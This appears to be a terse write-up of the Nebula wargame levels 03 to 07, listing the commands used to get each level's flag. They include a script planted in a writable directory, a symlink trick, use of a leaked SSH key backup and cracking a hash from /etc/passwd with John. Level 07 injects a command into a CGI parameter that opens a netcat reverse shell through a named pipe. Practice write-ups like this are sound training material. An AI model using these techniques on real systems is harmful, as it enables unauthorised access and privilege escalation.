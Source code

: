 #### 0x03 level03
    mykey:
        su - level03
        pass:level03(下文略去su - levelxx;pass:levelxx)
        cd /home/flag03
        vi writable.d/1.sh
        ---------content------
        (id;getflag) > /tmp/tmp.txt
        ----------end---------
        chmod +x writable/1.sh

#### 0x04 level04
    mykey:
        cd /home/flag04
        ln -s /home/flag04/token /tmp/level04
        ./flag04 /tmp/level04

#### 0x05 level05
    mykey:
        cd /home/flag05
        ls -la
        cp ./backup/* /home/level05
        cd /home/level05
        tar zxvf backup[tab]
        ls -la(then found .ssh directory created in common directory</home/level05>)
        ssh flag05@127.0.0.1
        yes
        getflag

#### 0x06 level06
    mykey:
        vi /etc/passwd
        v--> flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh --> :<,>w pass.txt
        use kali2's john
        john pass.txt
        get flag06:hello
        su - flag06
        pass:hello
        getflag

#### 0x07 level07
    mykey:
        ctr+alt+f2 --> tty2
        tty2:nc -lnv 8888
        ctr+alt+f1(backto tty1)
        tty1:wget -O- "https://127.0.0.1:7007/index.cgi?Host=127.0.0 || mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc 127.0.0.1 8888 1>/tmp/backpipe"
        ctr+alt+f2 --> tty2
        tty2:id(flag07),getflag
    link knowledge:
        for security,the linux system may not support -e parameter in netcat(nc -e ip port),so one way to exploit is:
            mknod /tmp/backpipe p
            /bin/bash 0</tmp/backpipe | nc 127.0.0.1 8888 1>/tmp/backpipe
